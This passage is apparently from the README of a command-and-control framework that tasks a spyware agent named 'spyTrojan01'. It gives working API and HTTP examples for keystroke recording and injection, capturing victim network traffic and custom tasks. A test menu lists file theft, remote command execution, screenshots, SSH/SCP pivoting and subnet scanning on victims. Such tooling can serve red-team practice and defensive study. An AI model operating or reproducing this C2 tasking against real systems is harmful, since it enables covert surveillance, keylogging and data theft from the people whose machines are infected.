| Fetch the recorded keyboard contents                      | getEvent  | 'simple'        |
| Fetch the recorded keyboard events(such as key hold time) | getEvent  | 'detail'        |
| Clear current keyboard record                             | clearRcd  | None            |
| Simulate user type in                                     | typeInStr | type in string  |

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase18()
malware1id = 'spyTrojan01'
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : 'keyEvent',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : 'typeInStr;Hello world!'
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `08. Keyboard event function` => select the keyboard event function from the dropdown menu and fill in the parameters , then Press `submit` button. 
- When the task state change to "finished", press the `show task result` button to check the execution result. 



` Figure-10: Steps to Generate or record keyboard event via management dashboard, version v0.2.3 (2024)`


#### Attack Task [09] Eavesdrop victim's traffic in pcap file

Description: Eavesdrop the victim's network traffic and save the traffic packets in pcap file.

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_EAVESDP`
- Task data/parameters: `network-interface-name;device_name;eavesdrop_time`
- Example:

```python
# c2AppAPITest.py : testcase19()
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType': c2Constants.TSK_TYPE_EAVESDP,
    'startT': None,
    'repeat': 1,
    'exePreT': 0,
    'state': c2Constants.TASK_P_FLG,
    'taskData': 'Wi-Fi;\\Device\\NPF_{*********-****-41B5-9C51-FE1DD27C469B};10'
}
c2Client.postTask(malware1id, testTaskJson)
time.sleep(10)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase20()
malware1id = 'spyTrojan01'
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : 'eavesDrop',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : 'Wi-Fi;\\Device\\NPF_{********-****-41B5-9C51-FE1DD27C469B};10'
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `09. EavesDrop victim's traffic` => fill in the victim network interface name, device ID and the capture time , then Press `submit` button. 
- When the task state change to "finished", press the `show task result` button to check the execution result



` Figure-11: Steps to Eavesdrop victim's traffic via management dashboard, version v0.2.3 (2024)`


#### Attack Task [10] Add customized special  

Description: Add customized special task based on the user's config.

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.<user defined task type code>`
- Task data/parameters: `<User defined paramters string>`
- Example:

```python
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType': '<user defined task type code>',
    'startT': None,
    'repeat': 1,
    'exePreT': 0,
    'state': c2Constants.TASK_P_FLG,
    'taskData': '<User defined paramters string>'
}
c2Client.postTask(malware1id, testTaskJson)
time.sleep(10)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
malware1id = 'spyTrojan01'
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : '<user defined task type code>',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : '<User defined paramters string>'
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `10. Assign a special task via Json` => fill in the task type, repeat time and the parameters , then Press `submit` button. 
- When the task state change to "finished", press the `show task result` button to check the execution result



` Figure-12: Steps to add customized specia via management dashboard, version v0.2.3 (2024)`


------

### Run API Test Cases Program

If you need the entire code example to use the API in your program. you can follow the test case file `src\testCases\c2AppAPITest.py`. To run different test cases: 

- Run the C2Hub and the Malware Agent
- Run the test case file : `python c2AppAPITest.py` 
- Select the test cases by input the test case index number as shown below:

```
Connected to C2
-------------------------------------------------------------
0. exist test program
1. Download file via c2Client API
2: Download file via http request
3. Upload file to C2 via c2Client API
4. Upload file to C2 via http request
5. Run commands on victim via c2Client API
6. Run commands on victim via http request
7. Steal file from victim to C2-DB via c2Client API
8. Steal file from victim to C2-DB via http request
9. Inject file from C2-DB to victim via c2Client API
10. Inject file from C2-DB to victim via http request
11. Capture victim screenshot to C2-DB via c2Client API
12. Capture victim screenshot to C2-DB via http request
13. SSH to target and tun command from victim via c2Client API
14. SSH to target and tun command from victim via http request
15. SCP file from victim to target via c2Client API
16. SCP file from victim to target via http request
17. Scan victim sub-network IPs via c2Client API
18. Scan victim sub-network IPs via http request
19. Generate or record keyboard event via c2Client API
20. Generate or record keyboard event via http request
Enter your selection:
```


------

> Last edit by LiuYuancheng (liu_yuan_cheng@hotmail.com) at 24/05/2024, if you have any problem please free to message me.